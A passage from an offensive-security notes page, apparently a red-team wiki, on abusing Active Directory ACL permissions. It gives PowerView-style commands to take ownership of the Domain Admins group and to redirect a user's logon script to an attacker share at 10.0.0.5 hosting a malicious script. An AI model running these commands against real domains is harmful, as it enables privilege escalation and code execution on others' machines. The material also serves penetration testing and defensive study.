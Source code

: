 ### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-36.png>)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-42.png>)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-54-59.png>)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-12-04.png>)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.bat"
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.exe"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-13-45.png>)

### WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-57.png>)
